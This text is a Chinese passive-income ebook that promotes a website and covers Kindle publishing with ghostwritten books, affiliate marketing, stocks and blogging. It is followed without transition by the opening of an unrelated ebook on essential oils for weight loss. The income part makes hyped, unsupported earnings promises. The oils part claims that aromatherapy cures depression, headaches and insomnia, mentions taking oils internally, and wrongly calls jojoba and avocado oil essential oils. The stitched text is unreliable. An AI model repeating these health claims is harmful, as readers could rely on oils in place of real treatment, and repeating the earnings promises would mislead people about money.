本书中的概念必须付诸行动，如果您想成功，就必须全心投入。许多人已经采取行动，每月收入增加了数千元。现在是您的时机，我完全相信您能够走出去，赚取您真正应得的报酬。

本书中我所谈论的一切都在我的网站 www.PassiveIncomeAssignment.com 上进行了更深入的讨论。注册以获取逐步说明，了解您今天如何开始在线赚钱。

再次感谢您下载本书，希望您喜欢。开始吧。

奖励：在开始之前，请确保访问我的网站以获取您的免费被动收入指南。

这份指南将教您我如何每天24小时、每周7天赚取被动收入，同时我可以做任何我想做的事情。我不仅会向您展示我是如何做到的，而且简单到任何人都可以做到。

在开始之前，请立即前往领取您自己的免费指南。
[www.PassiveIncomeAssignment.com](www.PassiveIncomeAssignment.com)

## 第 1 章：Kindle 出版

您是否正在寻找通过被动收入获得六位数收入的最简单方法？如果是这样，我有一个完美的解决方案供您选择，这可能会让您感到惊讶。我发现创建被动收入最简单的方法是通过 Kindle 出版。通过 Kindle 出版，您可以在几周内轻松创建一个收入来源。这不仅是一个极其快速的过程，而且还可以扩展。这意味着您可以快速发展您的 Kindle 业务，在相对较短的时间内赚取更多收入。如果您正在寻找多元化收入来源的东西，这绝对是您想要开始的地方。我将分享我的确切策略，我是如何发现 Kindle 出版的，以及您如何做到同样的事情。

### Kindle 出版是什么？

您可能会想，“出版？我要从哪里得到一本书，因为我不是作者。”但如果我告诉您，完成一本书是最简单和最快的步骤呢。我们现在可以在一周内以很少的费用制作一本原创书籍。即使是知名作者也在使用这种策略，因为它可以为他们节省大量时间。书籍写完后，我们拥有 100% 的所有权，因此我们赚到的每一分钱都归我们所有。

我正在快速建立我的书籍作品集，我将为您大致介绍所有成本是如何运作的。有很多网站拥有写作团队，可以为您撰写内容，还有您可以雇佣的自由职业者。书籍的撰写费用低至 30 美元，但我们希望确保书籍质量上乘，因此我建议至少花费 40-50 美元。我们唯一的其他费用是制作封面。这只会花费我们 5 美元。综合来看，我们每本书花费约 45-60 美元，大约一周即可完成。

您觉得这听起来太好了难以置信吗？就像我说的那样，写作过程是最快也最容易的部分。您需要想出一个有利可图的细分市场中的书名，然后将其发送给作者。他们随后会进行所有研究并创建您的书籍。因此，在一周内，您可以从一个想法到您的书籍在亚马逊上销售并为您带来利润。

我们每本书的目标是每月产生 50-100 美元的收入。因此，通常需要一个月才能收回成本，之后就是利润。只要亚马逊仍然是一家企业，就会产生这种利润，而这将持续很长时间。所以想想看，如果您每本书可以产生 50-100 美元，您会制作多少本？


## 我的目标

在未来一年里，我计划创作80多本书，并且每本至少给我每月50美元。如果只需一个月就能收回初始投资，我每月至少能盈利4000美元，完全被动。这意味着你有可能在一年内为自己建立六位数的收入。

我认识拥有200多本书的人，这些都是会长期存在并为你带来大量收入的资产。Kindle 业务正蓬勃发展，而且短期内不会消失。这正成为人们创收的一种非常流行的方式，所以现在是进入的最佳时机。Kindle 出版不仅能为你创造非常不错的收入，还能通过联盟营销、其他产品或你的网站创造其他收入来源。

## Kindle 出版是如何运作的

我将与你分享创作书籍的确切流程，以及你如何学习做同样的事情。有许多重要的策略可以让你的书在亚马逊上排名靠前，我也会向你展示如何做到：

Kindle 出版的基本流程是：

- 研究一个有利可图的细分市场
- 用合适的关键词创建标题
- 外包书籍和封面
- 在亚马逊上为书籍排名
- 为书籍定价
- 获取评论
- 编写描述

一旦你学会了逐步完成一本书的流程，就该扩大你的业务了。这意味着每周制作1-5本书。如果你每周制作2本书，那就是每月8本书。这8本书每月会为你带来400美元的收入。你明白了吗？

这美妙之处在于，你实际上可以用很少的钱外包90%的流程，这将使你能够提高产量并增加收入。这个流程不需要熟悉电脑或营销的人。任何愿意学习这个简单流程的人都可以做到。我认识60多岁的人靠这个赚得盆满钵满。我也认识靠同样技巧每月赚3万美元以上的人。所以无论你的计划是每月赚几百美元还是几万美元，这一切都相对容易实现。

## 你如何通过 Kindle 赚更多钱

你能从 Kindle 获得的钱很棒，但这还不是结束。通过你的书籍创造更多收入的方式有很多。

如何？

首先，你的 Kindle 书籍可以转换为不同格式。这包括平装本（对你来说没有额外成本）以及有声书。这使你能够接触到更多的人，从而每月增加你的收入。

另一种方式是通过你的书籍宣传他人的产品。例如，如果你有一本关于某种饮食的书，你可以宣传某人的产品，让他们受益更多，而你将赚取佣金。这可以让你在几乎不费力的情况下获得巨大的回报。听起来不错吧？

如果你有一个网站，你也可以在书籍中推广你的网站。例如，我有一些关于被动收入和网上赚钱的书籍。在这些书籍中我宣传我的博客，这将增加流量并提高我的后端收入。

如果你没有动力开始做这个，我不知道还能说什么。基本上我的回应是为什么？你可能在一份不喜欢的工作中赚不到满意的钱，那为什么还要继续呢？我给你一个改变生活并做你一直想做的事情的机会。

我写这个不是为了我自己受益。我已经在我的道路上，我的生活发生了巨大的变化。我想帮助你过上一直梦想的生活，我知道 Kindle 出版可以实现这一点。这就是这个网站的全部意义。我这么做是为了个人享受，因为我喜欢帮助别人，而且我知道什么有效。

访问我的网站 *PassiveIncomeAssignment* 并注册以获取我的免费被动收入生成指南，了解有关 Kindle 出版所需知道的一切。

## 第 2 章：联盟营销

你有兴趣在睡觉时赚取潜在的六位数收入吗？如果是这样，联盟营销可能适合你。

联盟营销是指你因推荐客户购买他人的产品或服务而获得佣金。这是一种很棒的创收方式，因为它非常简单...

这是因为你不需要花费时间和精力去创造产品。卖家已经通过制作产品、创建网站和销售页面完成了这项工作。你要做的就是将访客推荐到联盟网站，每笔销售你都会收到佣金。

这有多棒？

如果你目前拥有不错的粉丝群，这可能是你在网上赚钱的一种有效且简单的方式。

我的目标是让它成为我网站的重要组成部分，不仅为了收入，我还想通过推荐帮助过我的工具和资源来帮助人们。

我向人们推荐的一切都是因为我用过它，并且它对我的生活和业务产生了积极影响。我希望我的成功来自于开放和建立信任，所以如果我找到一个我喜欢的服务或课程，我想与你分享。

## 通过联盟营销赚钱的3个简单步骤

### 1. 创建博客或网站来建立粉丝群

*我创建了一份逐步指南，教你如何制作自己的网站。查看 这里。*

这是通过联盟营销在线创建被动收入的第一步。

联盟营销的整个想法是创造一个价值来源，让人们来并信任你所做的事情并想要你的意见。

在这里你可以推荐对他们有益的产品和服务，同时为自己赚取佣金（对他们来说没有额外成本）。这对你们双方来说都是双赢的局面。

为了通过联盟营销赚钱，你必须先建立粉丝群。这可以通过电子邮件列表或创建网站来实现 如果我评测过一款产品，而有人想购买它，我的网站就会出现，如果他们加入我就会收到佣金。

很酷吧？

有时让博客在 Google 上长期排名很困难，我发现使用 Youtube 视频评测产品并将其发布在你的博客上更容易排名…

这是因为 Youtube 由 Google 所有，其地位远高于新博客。这是一个可以利用的有力工具。

联盟营销的另一个例子是通过创建资源页面并列出你最喜欢的所有产品和服务。你可以对每个产品做一点点评，如果有人感兴趣，他们可以点击链接，它会带他们到公司的页面。查看我如何做到 这里。

### 2. 建立电子邮件列表进行营销

*我创建了一份逐步指南，教你如何创建和建立电子邮件列表。查看 这里。*

在你设置好某种营销平台后，就该建立你的电子邮件列表了。

这是很大的一部分，我认为这是必不可少的。一旦你有了列表，就该为你的订阅者提供很棒的免费内容，并推荐很棒的产品。

这是我在网上赚钱的另一种方式。

在我的网站上，有一个选择加入部分供人们加入并接收这份被动收入指南，以及博客上没有的其他很酷的内容。一旦人们选择加入，我就会收到他们的电子邮件地址。

首先，也是最重要的事情要记住的是，你必须专注于提供价值和建立信任。我通过尽可能发送高质量的内容来实现这一点。

然后，也只有在那时，你才能开始向你的列表推广产品。

如果你一开始就这么做，在他们信任你之前，每个人都会取消订阅，因为没有人想收到来自卖东西的人的大量邮件。

但我不能强调这一点不够，提供尽可能多的免费内容首先。

这是一个极其强大的工具，因为如果有一个我真的喜欢的产品，我认为其他人也会喜欢，我可以轻松地将这些信息发送给我的列表。我认为这是公平的，因为我花费了大量时间整理这些内容来让其他人的生活更轻松。

这里有2个重要部分需要记住…

- 你必须只推荐你相信并且会使他人受益的产品，而不是仅仅为了赚钱。你必须始终把访客放在首位，所以只推荐你非常放心的产品和服务。
- 不要过度向你的列表推广。你必须在价值和推广之间保持平衡。你需要为访客提供足够的价值，让他们想要回来，而失去访客的头号方式就是只卖东西给他们。

这里的主要教训是，建立列表最重要的部分是建立与访客的信任和关系。你必须像关心自己一样，甚至更多地关心他们。


## 3. 为你的网站引流

当你的网站上有了精彩的内容，就该开始吸引流量了。

有很多方法可以实现这一点，比如SEO优化、关键词、广告和社交媒体。我最喜欢的方式之一是通过我的Kindle电子书为网站引流。

我创作的每本书都能获得数百次下载，并且我会在其中向读者推广我的网站，因此这是吸引海量目光的极其简单的方法。

例如，创作一本关于如何交易低价股的书。这会呈现在数百人面前，他们很可能会想要下一步的建议。

这时我就可以将他们引导到我的网站，并分享我学过的如何交易低价股的课程。他们会因为学到更多而高兴，我也会因为获得少量佣金而开心。

我的Kindle电子书还可以用来建立我的邮件列表。

人们加入我的列表是因为他们想获得关于某些主题的内容和推荐。这时我就可以向那些正在寻找这类信息的人推荐产品。

再次，我强烈建议你深入学习如何找到利基市场并建立你的联盟营销网站。

在 *PassiveIncomeAssignment* 获取我的免费被动收入指南，了解关于联盟营销的一切所需知识。

## 第 3 章：股票市场

你也许以前听说过，股市是许多人赔光一切的地方，而且只有那些想挥霍金钱的富人才玩得起。这完全是无稽之谈，因为积累财富的第一来源就是股市。富人将辛苦赚来的钱投入市场必然有其原因，那么现在是不是你该追随他们脚步的时候了？

有些人损失惨重，有些人却发了大财，原因在于亏损者缺乏教育。他们要么太贪婪，要么根本不知道自己在做什么。他们最终在不了解公司情况或不懂如何看图表的情况下就投钱进去。这就是成功与破产的首要区别。

你可能会想：“我没有足够的钱开始”，但如果我告诉你只需要几千块就能起步呢？你愿意投入区区几千块来赚取可能上万的回报吗？

现在，在你盲目地到处扔钱之前，理解如何成功赚钱的概念很重要。这就是教育发挥作用的地方。你有两种自学选择。第一种是阅读书籍和访问网站，第二种是找一位导师或参加一个在线课程，由成功人士教你方法。

第一种选择一开始会更便宜，但学习并整合所有知识需要更长时间。虽然这个过程可能会为你省下一些前期投入，但很可能在开始时造成重大损失。选择这种方式，你还需要支付图表和筛选软件的费用，这些也可能有点贵。第二种选择（我推荐的那种）是找一位导师或一个课程，在一个地方教你所需的一切，并指导你进行交易。这不会贵太多，但从长远来看会有可观的回报。

无论你选择哪种方法，我怎么强调学习过程的重要性都不为过。即使你花了一整年时间才进行第一笔交易，也绝对值得等待。尽可能多学习，只在你感到舒适的时候交易。

这两种方式我都经历过，所以我知道在时间与花费更多金钱之间的机会成本。选择完全取决于你，所以无论你选什么，只要投入专注，你就会成功。

市面上有很多人提供课程，我也试过几个。我绝对建议选择一门这样的课程，而不是自己摸索。

访问我的网站 *PassiveIncomeAssignment* 看看我的推荐。注册获取我的指南，学习如何今天就起步！

## 第 4 章：博客

我写博客已经有一段时间了，它让我认识到博客可以有多强大。我的目标是把我的网站发展成六位数的业务，我想与你分享我到底打算怎么做。在以后的帖子中，我会分享更多关于如何一步步做到这一点的详细信息，但现在，我想向你展示如何通过博客开始在线赚钱。请记住，这不是一条快速致富的途径。博客是一个漫长的过程，你需要投入时间和精力才能成功。如果你坚持下去，这可以为你赚取足够让你余生无忧的钱。

### 博客最重要的部分

建立一个成功的博客需要做很多事情。最重要的是你能够为网站带来流量。没有访客，就不可能产生收入。那么，是什么让人们来到你的博客，并通过你购买东西呢？

首先，你必须为读者创造有价值的精彩内容。这些内容应当完全免费，并为他们提供改变生活的信息。内容必须优质，因为你需要每天有稳定的访客流，并建立起忠诚的粉丝群，让人们不断回来获取更多。这是建立博客中最困难、最耗时的过程。

请记住，只有当你创作出全部免费的精妙内容时，人们才会回来。你需要先付出，然后才能从他们那里得到任何东西。你需要写出能激励人、鼓舞人并改变他们人生的内容。只有在你制作完这些内容之后（一秒都不能提前），你才能开始分享和推广你的网站。

现在我们来进入这一过程。

### 如何为你的网站获取流量

- **搜索引擎优化** – 为网站获取流量最重要的方式是通过SEO。这意味着你的博客在Google中针对你的关键词排名靠前。当人们搜索你的关键词时，通常会点击前几个网站，所以你需要排在首页。你的大部分流量将来自Google。重要的是要在博客上发布大量高质量内容，因为Google对此给予更高的排名。
- **YouTube** – 在YouTube上制作高质量视频是另一个极其强大的获取流量方式。Google在搜索引擎中对YouTube视频排名很高，因此你会在两个网站上都被展示。在你所有的视频中，放上指向你博客的链接，这样如果他们喜欢你的视频，他们会想要更多。
- **社交媒体** – 社交媒体是分享内容的好方法，因为有很多人在使用它。它还允许你直接向对你特定内容感兴趣的人营销。使用Facebook、Twitter、LinkedIn、Instagram和Pinterest分享你所有的内容，将触达大量人群。
- **留言板** – 通过访问留言板，你可以直接与对你的利基领域感兴趣的人交流。发布有用的内容并附上指向你页面的链接，会为你带来相当可观的流量。唯一需要注意的是，你不要直接推销自己。先提供价值，然后再推广。
- **客座文章** – 在与你的利基相关的其他热门博客上撰写客座文章，也能给你带来大量线索。联系这些人，询问他们是否允许你在他们的网站上发表客座文章，以换取指向你博客的链接。

通过创作精彩的内容并运用这几种技巧，你将触达很多人并获得大量粉丝。坚持下去，你就会成功。

### 如何通过博客赚钱

当你的博客拥有了一定的关注度，就是开始赚钱的时候了。有很多方法可以做到，我会先从最重要的开始。

### 建立邮件列表

你的博客第一个也是最重要的部分是邮件列表。这些是信任你并渴望获得你发布的所有内容的忠实人群。要做到这一点，你需要一种获取他们联系方式（电子邮件地址）的方法。这让你能够进一步与他们沟通，并直接向他们提供产品/信息。这会与他们建立关系，也是从博客创造收入的关键步骤。

一旦人们加入了你的邮件列表，你需要一种向他们发送直接消息的方式。我使用AWeber来做这件事。它可以让你创建并向一群人发送电子邮件。如果你想只向订阅者发送信息，或只是通知他们新帖子，这个资源会非常有用。

一旦你建立了关系，你现在就可以开始推荐对他们有用的产品。这会奏效，因为他们信任你，并且希望取得成功。这将极其有帮助，因为如果你推出一个产品，你会有一群人来立即购买。

如果你想了解如何建立邮件列表，请在这里查看我的分步指南。

### 联盟营销

联盟营销是指你推荐产品或服务，当有人购买时，你获得佣金。这只能在你的受众了解和信任你时才能使用。这就是为什么你需要先建立列表。

既然你的列表已经建立，你可以向他们发送你相信并对你的列表有帮助的产品信息。不要随意推荐产品。有很多不同的产品为联盟会员提供产品以向他们的关注者推广。我使用


Clickbank。一旦你找到与你的细分市场相关的产品，就可以用你专属的 URL 来推广它。

再次提醒，首要目的是帮助你的受众；如果你能从中获利，那只是额外收获。

- 广告 – 这是通过博客赚钱最传统的形式之一。你可以找到提供这种服务的商家，也可能有人主动联系你。基本上，这不过是在你的网站上放一个链接或横幅，每当有人点击它，你就能获得报酬。金额完全取决于你所推广的内容。

在网站上放置横幅可以为你带来收入，但重要的是不要让你的页面广告过载。这会给用户带来负面体验，而且他们不会信任你，因为你所做的只是在向他们推销。不要向受众过度推广产品。在提供价值和推广之间建立平衡的比例。

- **打造你自己的产品** – 既然你已经建立了自己的名单，现在是时候弄清楚他们在寻找什么，以及你如何更好地服务他们。你可以对他们进行调查，询问他们具体希望在哪些方面得到帮助。范围可以涵盖教练服务、信息产品和书籍。现在你知道他们想要什么，就可以打造一款产品并向他们收费。

就我而言，我可能会发现大多数人都在寻找通过投资创造被动收入的方法。如果我不知道这一点，而是发布与 Kindle 相关的内容，这些人就不会再回来。但现在我确切地知道他们更想要什么，所以我会发布更多关于投资的内容，并创建与此相关的信息产品和书籍。

人们最常犯的错误之一，是在没有先做调研、确认是否真的有市场之前就打造产品。他们花时间和金钱制作产品，等到发布时却没人购买。先找到市场，再打造产品。

如果你想学习如何在几分钟内创建自己的博客，请在此处查看我的分步指南。

## 第 5 章：打造终极被动收入机器

你现在应该已经读完了前面几章，了解了如何用不同技巧赚取被动收入。现在是时候把所有内容整合起来，打造终极被动收入机器了。我们将把所有被动收入方式结合起来，让它们相辅相成。如果这种策略运用得当，它将为你余生带来收入。这需要时间，所以不要指望不付出努力就能收获数百万。

我会从最简单、最快捷的被动收入方式开始，所以你要做的就是从这里起步；一旦取得成功，再进入下一步，依此类推。在本文中，我会给出一个总体指导。我已经写了更详细的文章来说明如何操作这些方法，所以读完本文后可以去看看。我会在本文中链接所有内容。让我们从 Kindle 出版开始。

### 第1步：Kindle 出版

这将是我们的第一步，因为 Kindle 出版是在线赚钱最快、最简单的方式。你不需要成为作家才能做这件事，因为创作这些书的人中有 90% 都不是作家。我们希望自己的 Kindle 书日后能与我们的网站相关联，所以如果你的博客主题是烹饪，你就要创作与烹饪相关的书。

一旦你创作了一系列相关书籍，你不仅会开始从版税中赚钱，还会用这些书来推广你的博客，反之亦然。这之所以如此强大，是因为把你的书放到亚马逊上，并利用他们提供的免费推广，你可以在几天内出现在数百人面前。如果这些人喜欢你的书，他们就会去你的博客，并有可能成为客户。

### 第2步：创建博客/网站

既然你在某个细分领域有了一系列书，现在是时候创建你的网站或博客了。刚开始时，你的目标应该是创作高质量内容，并全部免费提供给读者。你要先与他们建立关系，以建立信任。一旦关系建立起来，你就可以开始推广产品并通过博客变现了。一个例子就是通过你的博客推广你的 Kindle 书。

接下来你要做的是建立电子邮件列表。电子邮件列表是指人们订阅你的邮件列表，因为他们想从你这里获得更多内容。他们提供电子邮件地址，你为他们提供精彩内容。这将是你最强大的资产，因为这些人已经信任你，基本上你放在他们面前的任何东西他们都会买。他们不仅会买你的书，还会买你推荐的产品。如今互联网上最成功的人说，钱就在名单里，所以不要忽视这一步。

### 第3步：联盟营销

既然你的博客上已有高质量内容，并且你也有了不错的粉丝群，你现在可以开始作为联盟成员推广其他人的产品了。这意味着你把他们推荐给某个产品或服务，如果他们购买，你就会获得佣金。你应该只推荐与你的细分领域相关且你亲自尝试过的产品。不要推荐你从未购买过的随机产品。这样做的整个理念是，你为他们提供有用的工具和资源，这些工具和资源会在某种程度上让他们受益。你的首要任务应该是帮助他们，赚钱应该放在其次。这对你们双方来说都是双赢的局面。

### 第4步：投资

现在问题变成了：“我该用赚到的钱做什么？”答案取决于你的个人情况，但一定比例的钱应该进入你的投资账户。投资方式有很多种，这确实取决于你的风险承受能力。主要思路是利用长期复利。阿尔伯特·爱因斯坦曾说：“复利是宇宙中最强大的力量。”

你需要弄清楚每月把多少收入存入账户，但作为一般规则，至少应为月收入的 10%。显然，现在投入得越多越好，因为随着时间推移它会呈指数级增长。

你可以选择成为主动投资者或被动投资者。主动投资者意味着你主动买卖股票以获取资本收益。被动投资者意味着你进行长期投资并获取股息。无论你选择哪种方法，都取决于你的兴趣，但你一定要坚持一种方法。投资是积累财富的首要方式，所以在我看来，这是必须的。

就是这样。这就是我用来打造被动收入机器的策略，也是我学习如何做到这一点的过程。如果你愿意投入时间和精力，这个过程相对容易。不要指望一夜暴富。这是一种长期财富积累方法，非常值得投入时间和精力。

你不必完全遵循这种方法，只做其中一种也完全可以。我发现这对我来说是最好的策略，我想与你分享。通过让我的 Kindle 书在前期为我赚钱并推广我的博客，同时我的博客推广我的书、通过联盟产品产生收入，然后把一定比例投资于股票，我相信这就是终极被动收入机器，能让我长期赚钱。现在轮到你了。

访问我的网站，了解如何从今天开始运用这些技巧中的任何一种。

www.PassiveIncomeAssignment.com

## 结论

正如我之前所说，只要自信地运用我在本书中谈到的内容，我毫不怀疑你将能够赚到一直想赚的钱，过上高质量的生活。唯一阻碍你的就是你自己，所以不要害怕走出去，去获得你想要的一切。

感谢你阅读本书。我真心希望你能从中获得价值。祝你在旅途中一切顺利，并记住永远不要满足，你值得更多。

如果你从本书中获得了价值，那么我想请你帮个忙。你能否善意地在亚马逊上为本书留下评论？点击下方链接前往亚马逊评论页面！

点击此处前往亚马逊评论页面

**我希望这本书能触达尽可能多的人，而更多评论将帮助我实现这一目标。**

**再次感谢，祝你好运！**


## 附赠：别忘了！

请务必访问我的网站，获取免费的被动收入指南。

这份指南将准确教你如何像我一样，每周7天、每天24小时赚取被动收入，同时还能随心所欲地做任何事。我不仅会向你展示我的做法，而且方法足够简单，任何人都能照做。

这份指南将更详细地讲解我们在本书中讨论的所有内容，并向你准确展示如何从今天开始赚钱！

在我们开始之前，现在就前往领取属于你的免费指南吧。[www.PassiveIncomeAssignment.com](http://www.PassiveIncomeAssignment.com)

# 精油完全指南

## 减肥精油与芳香疗法完全指南

我最喜欢的一种饮食法的额外信息

还有更多免费和特价书籍，请访问 [KindleBookSpot.com](https://KindleBookSpot.com)

## 目录

- 引言
- 第1章：芳香疗法
- 第2章：如何使用精油
- 第3章：为什么应该使用精油
- 第4章：配方
- 结论

## 引言

感谢并祝贺你下载本书《14天精油指南：减肥精油与芳香疗法完全指南》。

本书包含经过验证的步骤和策略，教你如何感觉更健康、更放松，并过上更快乐的生活方式。

为什么大多数人在想到健康和健身时，第一反应是感到气馁，表现得好像这个想法根本不存在？当然，我们不可能都成为健身专家，但如果你真的想恢复体形、感觉更好，有一些技巧可以帮助你打造一直想要的身材。无论是减重还是获得更多精力，使用精油都是一个很好的开始。

虽然随着年龄增长，身体的自然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善身体和心理健康，而阅读本书就是迈向一直想要的生活的第一步。

本书旨在教你如何通过使用精油，开始更健康、更环保的生活方式。这并不是一种帮助你快速减重、感觉更健康的短暂潮流，而是应该鼓励你使用精油做出更健康的生活方式选择，并在此过程中重塑你的生活方式。

### 本书将教你：

- 哪些精油对不同状况最有效
- 为什么需要清除毒素
- 如何使用精油，以及你将获得的健康益处
- 为什么应该使用精油和芳香疗法
- 如何从零开始自制精油
- 以及更多内容！

那么，你还在等什么？现在就开始阅读，从今天起改变你的生活方式吧！

再次感谢你下载本书，希望你喜欢！

别忘了看看我最喜欢的一种饮食法，并在文末了解我如何通过3周饮食法快速减掉顽固多余脂肪的策略。

## 开始之前……附赠：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得很棒的价值。我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 我最喜欢的健康相关产品信息
- 以及更多内容！

点击此处获取所有这些信息！

## 第 1 章：芳香疗法

你是否经常在锻炼计划中感到疲惫和压力？你是否经常因为体型没有明显改善而陷入抑郁和焦虑？你是否迫切想要达到理想体型，但目前的做法对你不奏效？如果是，那么你不再需要担心，因为本书将指导你了解一件令人兴奋的事情，它可以在很大程度上帮助减重。

减重对我们大多数人来说可能是一项艰巨的任务。虽然每个人都渴望拥有苗条而匀称的身材，但只有少数人能坚持严格的饮食和锻炼计划。虽然运动和饮食对减重至关重要，但它们有时需要花费大量时间才能产生理想效果。

对我们大多数人来说，锻炼计划似乎对身体无效，饮食也没有显著减少脂肪。虽然许多人可能坚持锻炼多年，但我们大多数人会失去希望，放弃变苗条的梦想。坚持严格的运动和饮食计划对我们大多数人来说可能压力很大，因此许多人陷入抑郁和暴食症，离减重目标越来越远。

在这种情况下，你需要一些能提升情绪、让你充满决心和动力去减掉多余体重的东西。你需要一些能改善心理健康的东西，以便更好地控制食欲，并无论锻炼多么艰难都能坚持下去。这就是芳香疗法发挥作用的地方。它能提升你的精力、改善情绪、减轻压力，并改善身心健康。只有当你精力充沛、积极有动力且身体健康时，你才能专注于目标，获得理想体型。

在我们继续告诉你芳香疗法如何帮助减重之前，先让我们告诉你芳香疗法究竟是什么。芳香疗法是一种使用受控剂量精油来改善人的身体、心理和精神健康的技术。你可能会想，这本书讲的是某种甜美迷人的香味，就像某些香水一样，每当我们闻到它们就会感觉更好。打破你的幻想吧，芳香疗法并不是关于闻所有好闻的气味。只有某些精油的特定气味被已知对我们的健康和健身有效。

你们中的一些人可能听祖父母讲过用精油治疗疾病。因此，使用精油进行治疗并不是新鲜事，因为这些精油在古代也一直在治愈人们。这对印度和罗马的人们尤其如此，他们过去依赖使用一些精油来保持健康和健身。好消息是，这些精油确实有效，并能改善你的身体、心理和精神健康。既然它们能治愈古代文明中的人们，它们也能治愈你。

### 什么是精油？

既然你已经听说了某些精油的重要性，让我们告诉你那些以治疗功效著称的精油。正如我们之前提到的，并非所有精油都能减轻压力或帮助你控制饥饿。只有“精油”才能像魔法一样作用于你的大脑，消除你的焦虑和抑郁。

精油都是从植物中提取的油，以其香味和治疗效果而闻名。由于它们是从植物中提取的，因此含有其来源植物叶子和花朵中储存的治愈力量。你可能期待这些精油像市场上看到的普通油一样。然而，与你的想法相反，这些精油并不黏稠厚重。事实上，其中一些清澈如水，许多还具有令人愉悦的颜色。

对你们大多数人来说，使用精油来确保健康这个想法可能显得荒谬。你可能想知道，仅仅精油怎么能消除压力和焦虑，并减少多余摄入的卡路里。好吧，信不信由你，研究表明，这些精油的香味会刺激大脑的某些部位，释放让你感觉良好和精力充沛的化学物质。你也会开始感到平静和放松，烦恼会消失。那时，你才能专注于锻炼，并受到激励继续坚持饮食，无论它们看起来多么没有效果。因此，抛开你对芳香疗法的所有疑虑，与我们一起踏上旅程，我们将告诉你如何使用一些精油来获得巨大的健康益处。


## 芳香疗法的益处

如果你使用芳香疗法，减重并非你获得的唯一好处。这一技术还能带来诸多其他益处。虽然有些人可能用芳香疗法来治疗抑郁和焦虑，但也有很多人借此缓解身体和肌肉酸痛。芳香疗法能够治愈头痛、改善情绪、促进消化，从而让你以恰当的方式进食。即使你饱受失眠困扰、通常难以入睡，这一技术也能确保你的忧虑和烦恼烟消云散。

芳香疗法在月经问题方面也被证实有效，因此女性可以大大受益于这一神奇的技术。简而言之，芳香疗法以解决我们许多身体、心理和精神方面的问题而闻名，并且能有效治愈你想要摆脱的难题。因此，如果你经常头痛、失眠，或时常感到情绪低落、抑郁，是时候将你的资源投入到这种廉价的疗愈方法中了。

然而，要进行芳香疗法，一个人必须了解哪些精油在特定情况下有效。那么，让我们来看看一些足够强大、能够改善你身心健康的精油。

### 薰衣草精油

薰衣草精油是一种非常著名的精油，用于治愈抑郁、消除焦虑以及缓解生活中的压力。

### 柠檬精油

这种柑橘类水果的芳香疗法非常有益，因为它能帮助你在最紧张的情况下放松身心。因此，在漫长而疲惫的一天工作之后，不妨用这种精油进行一次疗程。

### 荷荷巴油

看到荷荷巴油出现在这个列表中感到惊讶吗？是的，它常被用于护发产品，但在芳香疗法中使用时也非常有效。

还有许多其他精油，如牛油果油、茉莉油和薄荷油，都能带来上述所有益处。然而，这还不是全部。在进行疗法之前，人们还需要考虑各种因素，并且有许多方法可以用来达成你期望的效果。

迫不及待想探索这种疗愈方法了吗？请继续阅读下一章，了解更多关于其用法和益处的信息。下一章将告诉你芳香疗法的具体应用方式，让你能轻松使用它，并看到健康和体能方面的改善。

## 第 2 章：如何使用精油

既然你已经了解了芳香疗法的益处，接下来我们将带你了解其应用方法。学习如何使用精油至关重要，因为这一技术本身可能存在风险和副作用。话虽如此，使用精油并不是一件难事。它只需要谨慎、预防措施，以及对每种应用方法和可用精油的充分了解。

因此，我们为你编写了一份小指南，帮助你掌握芳香疗法的艺术，并将其融入日常生活。如我们之前所说，作为这一技术的初学者是完全没问题的。你只需遵循本书中提到的所有指导原则，就能战胜忧虑，按照自己想要的方式生活。

一般来说，使用精油有三种方式：芳香法、局部涂抹法和内服法。每种方法取决于你所面临的问题和你所使用的精油。有些方法适用于所有疾病，而有些方法仅适用于特定问题。因此，你必须仔细阅读下面描述的每种方法，以分析最适合你的那一种。

### 芳香法

你一定常常因为闻到难闻的气味而感到不适，或者也许因为闻到雨后的气息而感到好转。这是因为香气拥有影响我们情绪、提升能量或让我们低落的力量。同样地，精油的香气强大到足以影响我们的大脑、释放有益的化学物质，并让我们感到充满动力和决心。当气味从鼻子传递到大脑中处理情绪和感受的区域时，就会发生这种情况。在那里，香气与大脑相互作用，并从主腺体释放某些激素，进而改善我们的身心健康。

香气与大脑的相互作用还能改善我们的血压和心跳。除了与大脑的相互作用之外，香气还会到达肺部，治疗其他身体疾病。因此，精油的香气是消除我们焦虑和烦恼的有力工具，尤其是那些与体重相关的烦恼。

然而，并非每种香气都会产生相同的效果。精油的香气与所有其他气味不同，因为它含有精油提取自植物的益处。因此，香气会给你带来与使用精油本身相同的功效。你还可以通过更多方式吸入香气并体验其益处，第一种就是直接吸入法。

### 直接吸入

要芳香地使用精油，一种方法是直接吸入精油的香气。这种方法包括在手上滴几滴精油，然后吸入滴液散发的香味。你也可以将鼻子靠近精油瓶口，直接吸入香气。请确保不要反复打开和关闭瓶子，因为接触空气会导致精油变质。在使用这种方法时，你还必须注意所选的精油。有些精油，如牛至油和肉桂油，不适合直接吸入，因为它们必须先稀释。因此，每当你计划直接吸入精油香气时，务必先研究该精油是否能够以浓缩形式使用。然而，不管有哪些预防措施，如果你希望快速缓解情绪困扰或呼吸道问题，这种方法还是很有帮助的。

### 扩香器

这是吸入精油香气的一种流行技术。它涉及将精油放入电动扩香器中，扩香器将精油扩散到空气中，这样你就能吸入香气。这是一种安全做法，因为它可以防止精油与空气接触后氧化。

你需要确保扩香器质量上乘，能够使扩散过程顺利进行。这意味着你的精油不应因高温而损坏，并且香气应在空气中长时间停留。和直接吸入一样，请确保你了解自己的精油是能直接用于扩香器，还是需要稀释或与其他精油混合后再使用。

如果你担心扩香器的成本，请放下所有顾虑，因为这些扩香器在市场上很容易买到，价格低廉。你还可以找到不同类型的扩香器，如雾化扩香器、加热扩香器或被动式扩香器。去市场走一趟，选择最符合你需求、要求和预算的那一款吧。

### 通过棉球或手帕吸入

另一种吸入你最爱的精油香气的方法，是在棉球或手帕上滴2-4滴精油，然后将布或球靠近鼻子吸入香味。你也可以使用任何其他布料达到此目的。

### 蒸汽吸入

